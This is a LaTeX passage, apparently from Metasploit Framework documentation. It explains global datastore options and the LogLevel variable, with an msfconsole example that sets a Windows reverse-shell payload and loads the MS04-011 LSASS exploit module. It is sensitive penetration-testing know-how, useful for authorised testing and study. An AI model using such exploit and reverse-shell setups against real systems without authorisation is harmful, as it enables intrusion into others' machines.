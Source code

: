 \documentclass{report}
\begin{document}
\par
This split datastore system allows you save time during exploit development
and penetration testing. Common options between exploits can be defined in the
Global datastore once and automatically used in any exploit you load thereafter.  

\par
The example below shows how the \texttt{LPORT}, \texttt{LHOST}, and
texttt{PAYLOAD} global datastore can be used to save time when exploiting a
set of Windows-based targets. If this datastore was set and a Linux exploit
was being used, the module datastore (via \texttt{set} and \texttt{unset})
could be used to override these defaults.  

{\footnotesize
\begin{verbatim}
f > setg LHOST 192.168.0.10
LHOST => 192.168.0.10
msf > setg LPORT 4445
LPORT => 4445
msf > setg PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf > use windows/smb/ms04_011_lsass
msf exploit(ms04_011_lsass) > show options

Module options:

...

Payload options:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST     192.168.0.10     yes       The local address
   LPORT     4445             yes       The local port

...

\end{verbatim}}

    \section{DataStore Variables}
    \label{ENV-VAR}
\par
The datastore can be used to configure many aspects of the Framework, ranging
from user interface settings to specific timeout options in the network socket
API. This section describes the most commonly used environment variables.  

\par
For a complete listing of all environment variables, please see the file
Environment.txt in the ``documentation'' subdirectory of the Framework. 

	\subsection{LogLevel}
\par
This variable is used to control the verbosity of log messages provided
by the components of the Framework.  If this variable is not set, framework
logging is disabled.  Setting this variable to 0 will turn on default log
messages.  A value of 1 will enable additional, non-verbose log messages that
may be helpful in troubleshooting.  A value of 2 will enable verbose debug
logging.  A value of 3 will enable all logging and may generate a large amount
of log messages.  Only use this when much additional information is required.
\end{document}
